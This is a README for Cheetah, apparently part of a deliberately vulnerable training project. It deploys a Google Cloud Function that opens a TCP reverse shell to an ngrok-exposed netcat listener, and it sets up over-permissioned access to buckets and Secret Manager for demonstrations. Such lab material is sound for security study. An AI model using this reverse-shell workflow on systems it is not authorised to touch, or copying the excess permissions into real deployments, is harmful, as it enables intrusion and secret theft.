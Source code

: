 # Puma Prey Cheetah

Cheetah is a Go function that can be deployed to the Google Cloud Platform to establish a TCP reverse shell for the purposes of introspecting the Cloud Functions container runtime.

## Installing Prerequisites

* [Google Cloud SDK](https://cloud.google.com/sdk/install)
* [Node.js / NPM](https://nodejs.org/en/download/)
* [Function Deployment Service Account](https://cloud.google.com/functions/docs/concepts/iam#cloud_functions_service_account)

## Deploying The Function

### Serverless Framework

Follow [these steps](https://serverless.com/framework/docs/providers/google/guide/credentials/) to generate a credentials file. Deploy the function by specifying your GCP project ID and the **absolute path** of the credentials file.

```bash
cd /PATH/TO/cheetah/src/cheetah
npm install

# Optional: Create protected storage bucket that the function role has access to.
export WITH_BUCKET=true
export BUCKET_SUFFIX=$(uuidgen | cut -b 25-36 | awk '{print tolower($0)}') # Save this value for future sessions.

GCP_PROJECT=YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID GCP_CREDENTIALS_FILE=/ABSOLUTE/PATH/TO/.gcloud/keyfile.json npx serverless deploy
```

In addition to deploying the function, if `WITH_BUCKET=true` and `BUCKET_SUFFIX` is set, this will create a private storage bucket. The function role will have unnecessary permissions to access the bucket.

To upload a secret image to the bucket, run the following:

```bash
gcloud auth activate-service-account --key-file /PATH/TO/.gcloud/keyfile.json
gsutil cp /PATH/TO/assets/* "gs://cheetah-$BUCKET_SUFFIX"
```

You can also use Cheetah to demonstrate how a compromised function could be used to access the GCP Secret Manager. In order to set this up:

* Enable "Secret Manager API" in the [API dashboard](https://console.cloud.google.com/apis/dashboard).
* Recreate your service account and add the "Secret Manager Admin" role.
* As [the Serverless Framework always uses the App Engine default service account](https://github.com/serverless/serverless-google-cloudfunctions/issues/161), 
* Run the following:

```bash
gcloud config set project YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID # If you receive a warning like the following, you can just ignore it: WARNING: You do not appear to have access to project [...] or it does not exist.

gcloud secrets create cheetah-database-password --replication-policy automatic
echo -n 'RG9ncyBhcmUgb3VyIGxpbmsgdG8gcGFyYWRpc2UuIFRoZXkgZG9uJ3Qga25vdyBldmlsIG9yIGplYWxvdXN5IG9yIGRpc2NvbnRlbnQu' | gcloud secrets versions add cheetah-database-password --data-file="-"
gcloud secrets add-iam-policy-binding cheetah-database-password --member serviceAccount:YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID@appspot.gserviceaccount.com --role roles/secretmanager.secretAccessor
```

### Native GCloud Commands

To deploy natively without the serverless framework, configure `gcloud` in the Terminal to authentication as the deployment service account. Then, deploy the function.

```bash
gcloud auth activate-service-account --key-file ~/.gcloud/keyfile.json
gcloud functions deploy cheetah --entry-point Cheetah --runtime go111 --trigger-http --service-account=YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID@appspot.gserviceaccount.com
```

## Testing in GCP

If you have [Netcat](http://netcat.sourceforge.net/) and [ngrok](https://ngrok.com/) installed, you can use this script:

```bash
script/cheetah --url-id YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID
```

See [here](../script/USAGE.md) for more details on how to use this script.

Alternatively, you can do this manually by setting up a Netcat listener like so:

```bash
nc -l 4444
```

Then, to make your listener accessible from the public internet, consider using a service like [ngrok](https://ngrok.com/):

```bash
ngrok tcp 4444
```

Finally, invoke your function, supplying your connection details:

```bash
curl "https://$GCP_REGION-YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID.cloudfunctions.net/Cheetah?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER"
```

Your listener will now act as a reverse shell for the duration of the function invocation. You can adjust the function timeout in the serverless.yml file.

## Teardown

```bash
cd /PATH/TO/cheetah/src/cheetah
GCP_PROJECT=YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID GCP_CREDENTIALS_FILE=/ABSOLUTE/PATH/TO/.gcloud/keyfile.json npx serverless remove
```

## Linting

```bash
cd /PATH/TO/cheetah/src/cheetah
go get -u golang.org/x/lint/golint
npm run lint
```

## Learning More

Read [documentation](docs) on what you can accomplish once you connect to the runtime via Cheetah.

## Serverless Go Template

Creating the original function template using the serverless framework.

```bash
cd src
serverless create --template google-go --path cheetah
```

## Exploring Serverless

Refer to [Serverless Docs](https://serverless.com/framework/docs/providers/google/) for more information.
